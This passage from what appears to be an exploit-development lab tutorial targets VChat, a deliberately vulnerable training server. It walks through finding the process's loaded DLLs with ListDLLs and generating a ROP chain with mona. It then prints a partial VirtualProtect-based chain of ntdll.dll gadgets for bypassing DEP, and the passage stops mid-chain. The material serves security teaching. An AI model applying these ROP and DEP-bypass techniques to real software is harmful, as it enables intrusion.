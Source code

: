         https://github.com/DaintyJet/VChat_Brute_Force/assets/60448620/16fa708d-cf57-4d0f-90fa-eef338818386


        1. Open Task Manager, and locate the VChat Process.

            <img src="Images/I13.png" width=600>

            * If you do not have the additional details displayed, you should click the *More Details* button at the bottom of the Task Manager window.
        2. Right Click the process and select *Go to Details*.

            <img src="Images/I14.png" width=600>

        3. Now we know the Process ID (PID) of our VChat Process. This will be used in the `ListDLLs` command!

            <img src="Images/I15.png" width=600>

        4. Use the following command in a *command prompt* to list the DLLs loaded for a given process with the PID we have specified.

            ```
            $ .\Listdlls64.exe -r -v <PID>
            ```
            * `.\Listdlls64.exe`: We ran the ListDLLs command without adding it to the `PATH`, hence it includes the `.\`.
            * `-r`: This flag tells ListDLLs to flag any DLLs that have been relocated since they could not be loaded at their preferred address.
            * `-v`: This flag tells ListDLLs to display all version information for each DLL it locates.
3. Attempt to Generate a few ROP chains using various DLLs in addition to the VChat executable.
    ```
    !mona rop -m vchat.exe,<filename> -n

    # e.g. !mona rop -m vchat.exe,ntdll.dll -n
    ```
    * It may take a few tries to get a working chain.

    We selected the combination of `vchat.exe` and `ntdll.dll` and got the following ROP chain.
    ```
        #[---INFO:gadgets_to_set_esi:---]
        0x771e7a5a,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0x62508128,  # ptr to &VirtualProtect() [IAT essfunc.dll]
        0x7716c7f2,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [ntdll.dll] ** REBASED ** ASLR
        0x7713e866,  # XCHG EAX,ESI # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ebp:---]
        0x77177cbf,  # POP EBP # RETN [ntdll.dll] ** REBASED ** ASLR
        0x7718b903,  # & call esp [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ebx:---]
        0x771e28aa,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0x74a1a301,  # put delta into eax (-> put 0x00000201 into ebx)
        0x77142002,  # ADD EAX,8B5E5F00 # RETN [ntdll.dll] ** REBASED ** ASLR
        0x771d3ea9,  # XCHG EAX,EBX # OR EAX,E58BFFFA # POP EBP # RETN 0x08 [ntdll.dll] ** REBASED ** ASLR
        0x41414141,  # Filler (compensate)
        #[---INFO:gadgets_to_set_edx:---]
        0x77170173,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0x41414141,  # Filler (RETN offset compensation)
        0x41414141,  # Filler (RETN offset compensation)
        0x74a1a140,  # put delta into eax (-> put 0x00000040 into edx)
        0x77142002,  # ADD EAX,8B5E5F00 # RETN [ntdll.dll] ** REBASED ** ASLR
        0x7711b6e2,  # XCHG EAX,EDX # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ecx:---]
        0x771d74b6,  # POP ECX # RETN [ntdll.dll] ** REBASED ** ASLR
        0x77225c9f,  # &Writable location [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_edi:---]
        0x7717a182,  # POP EDI # RETN [ntdll.dll] ** REBASED ** ASLR